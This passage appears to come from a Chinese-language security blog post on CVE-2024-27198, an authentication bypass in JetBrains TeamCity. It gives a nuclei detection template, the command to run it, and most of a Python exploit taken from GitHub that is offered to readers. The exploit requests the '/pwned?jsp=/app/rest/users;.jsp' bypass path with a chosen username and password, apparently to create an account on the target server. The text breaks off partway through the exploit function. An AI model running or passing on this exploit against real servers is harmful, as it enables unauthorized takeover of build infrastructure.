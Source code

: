 ```
requests:
  - method: GET
    path:
      - "{{RootURL}}/login.html"

    extractors:
      - type: regex # type of the extractor
        name: version_
        part: body
#        internal: true
        group: 1
        regex:
          - '<span class="vWord">Version</span>(.+?)</span>'
    matchers:
      - type: dsl
        dsl:
          - "status_code == 200 && version_ < '2023.11.4'"

```  
  
运行POC  
```
nuclei.exe -t mypoc/cve/CVE-2024-27198.yaml -l 1.txt
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BPqSkOtUwBvkdlzk5P2IPTpIRWnGsNxrOCl3gicxcDWmGyoj3ibpoHwteibUrEicpXNa59RjZ7WtXdf7Q/640?wx_fmt=png&from=appmsg "")  
  
08  
  
—  
  
漏洞利用  
  
  
github上发现个现成的用python写的EXP，  
EXP放到工具包中了，文末获取  
```
import requests
import urllib3
import argparse
import re
urllib3.disable_warnings()

parser = argparse.ArgumentParser()
parser.add_argument("-t", "--target",required=True, help="Target TeamCity Server URL")
parser.add_argument("-u", "--username", required=True,help="Insert username for the new user")
parser.add_argument("-p", "--password",required=True, help="Insert password for the new user")
args = parser.parse_args()

vulnerable_endpoint = "/pwned?jsp=/app/rest/users;.jsp" # Attacker’s path to exploit CVE-2024-27198, please refer to the Rapid7's blogpost for more information

def check_version():
    response = requests.get(args.target+"/login.html", verify=False) 
    repattern = r'<span class="vWord">Version</span>(.+?)</span>' # Regex pattern to extract the TeamCity version number
    try:
        version = re.findall(repattern, response.text)[0]
        print("[+] Version Found:", version)
    except:
        print("[-] Version not found")

def exploit():
    response = requests.get(args.target+vulnerable_endpoint, verify=False, timeout=10)
    http_code = response.status_code
    if http_code == 200:
```
